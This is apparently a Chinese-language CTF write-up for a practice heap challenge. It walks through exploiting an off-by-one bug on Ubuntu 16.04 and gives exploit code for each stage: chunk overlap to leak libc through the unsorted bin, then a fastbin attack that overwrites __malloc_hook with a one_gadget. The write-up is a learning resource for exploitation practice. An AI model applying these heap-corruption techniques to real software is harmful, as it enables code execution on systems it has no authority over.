 # 标题

> practice-offbyone

## **原理**
offbyone+fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb

## **步骤**

看一下代码：

![](./pic/1.png)

看到edit中有一个 strlen函数到 `\0` 结束，但是read函数 不会在字符串的结尾加上 `\0`。我们可以进行 offbyone。

- 首先，我们先malloc5个堆块，然后释放掉 堆块1。

```
add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
```

堆块1会被放入到 unsortedbin中，在这道题中 我们无法打印被delete掉堆块的内容。所以我们接下来进行offbyone的利用。

注：为什么把堆块malloc一个这样的大小，是因为这样生成的堆块会复用prev_size。这样我们利用offbyone的时候，才能修改到size部分。下图就是malloc之后的情况。

![](./pic/3.png)

- 接下来利用offbyone的思路是这样的，如下图所示：

![](./pic/4.png)

通过修改 被free掉的堆块的size部分，使之变大。面积可以覆盖到下一个没有被free掉的堆块

```
edit(0,'a'*0x28+'\x71') #将这个块的size 改成0x171
edit(2,'a'*0x60+p64(0x170)+'\x70') 

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)
```
我们free掉 堆块1之后，改变了堆块1的大小，这样我们再malloc一个和先前堆块1一样的大小的堆块时，就会在unsorted bin中选一个堆块，切掉需要的大小，再将余下的部分放回 unsortedbin中。看下图：

![](./pic/5.png)

由上图可见，我们并没有将堆块2 free掉，但是经过刚才的处理，他出现在了unsorted bin中。这样我们再show(2)，就能得到 main_arena+88的地址，进而得到libc的地址。

- 接下来我们要进行fastbin attack 

```
add(0x60,'a'*0x60)# 5 == 2

delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,+'a'*0x60)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)
```

这里有一个问题就是为什么，要delete两次来触发 one_gadget。是因为所有的one_gadget都不能用，所以我们是通过malloc_printerr的方式触发，这样成功的可能性更大。


## **参考阅读**

